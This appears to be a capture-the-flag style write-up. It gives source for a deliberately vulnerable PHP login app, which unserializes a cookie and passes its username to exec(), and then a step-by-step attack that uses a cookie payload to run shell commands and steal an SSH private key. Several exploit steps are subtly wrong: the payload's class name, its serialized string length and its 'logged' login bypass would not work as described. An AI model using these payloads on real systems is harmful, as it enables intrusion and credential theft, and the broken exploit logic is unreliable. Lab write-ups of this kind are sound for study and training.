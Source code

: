 ## ACTUAL CODE
index.php
```
<?php
require_once('User.php');

if ( isset($_POST['username']) && isset($_POST['password'])) {
    $user = $_POST['username'];
    $pass = $_POST['password'];

    if ( strcmp($user, $username) == 0 && strcmp($pass, $password) == 0 ) {
        $logged = true;
    } else {
        $logged = false;
        $msg = "Invalid Credentials";
    }
}
?>
<html>
<head>
    <title>ESRS</title>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
    <link rel="icon" href="static/images/favicon.png" />
    <link href="static/css/main.css" rel="stylesheet" />
</head>
<?php
if ( $logged ) {
    echo "<center>";
    include('/home/jane/.ssh/id_rsa');
    echo "</center>";
} else {
    require('home.php');
}
?>
</html>
```

User.php
```
<?php
$username = "admin";
$password = "BDjfnEF9nOSx8Sw+Z3YtJw==";

class User {
    public $username;
    public $id;

    public function __construct($username) {
        $this->username = $username;
        $this->id = "1000";
    }

    public function __wakeup() {
        $this->id = exec("id -u " . $this->username);
    }

}
```

home.php
```
<?php
    if ( isset($_COOKIE['data']) ) {
        $user = unserialize($_COOKIE['data']);
    } else {
        $user = new User(system('whoami'));
        setcookie('data',  serialize($user), time()+3600);
    }
    echo "<p>System Administrator (SYSADM) - " . $user->username . " (" . $user->id .")</p>";
?>
```

## EXPLOIT
### Step 1: Understand the Vulnerability
The vulnerability lies in the unserialization of user-controlled data from a cookie. This allows us to exploit the ```__wakeup``` method in the User class to execute arbitrary commands.

### Step 2: Craft the Malicious Serialized Object
First, we need to create a serialized object that will trigger the __wakeup method when unserialized.

Create a PHP script to generate the serialized payload:
```
<?php
class ExploitUser {
    public $username = "username; id > /tmp/output; ";
}

$exploit = new ExploitUser();
$serialized_exploit = serialize($exploit);
echo "Serialized Exploit: " . $serialized_exploit;
?>
```
Run the script to get the serialized string:
```
php generate_payload.php
```


### Step 3: Inject the Cookie and Trigger the Exploit
Set the malicious cookie:

Use the serialized string output from the previous step.
Example output might look like:

```
O:11:"ExploitUser":1:{s:8:"username";s:25:"username; id > /tmp/output; ";}
```

Use a tool like Burp Suite or your browser’s developer tools to inject the cookie:

Open Burp Suite and intercept a request to the vulnerable website.
Add the data cookie with the serialized payload.
Example HTTP header:
```
Cookie: data=O:11:"ExploitUser":1:{s:8:"username";s:25:"username; id > /tmp/output; ";}
```

### Step 4: Verify Command Execution
Access the target machine and check for the output of the executed command:
SSH into the machine or use a reverse shell if you have one.

Check the /tmp/output file for the results of the id command:

```
cat /tmp/output
```

### Step 5: Retrieve the SSH Private Key
Modify the serialized payload to set $logged to true:

```
<?php
class ExploitUser {
    public $username = "username; id > /tmp/output; ";
    public $logged = true;
}

$exploit = new ExploitUser();
$serialized_exploit = serialize($exploit);
echo "Serialized Exploit: " . $serialized_exploit;
?>
```
Set the new cookie with this payload
Retrieve the SSH private key

After bypassing the login, the private key should be displayed on the page.
Copy the key and save it to a file on your machine.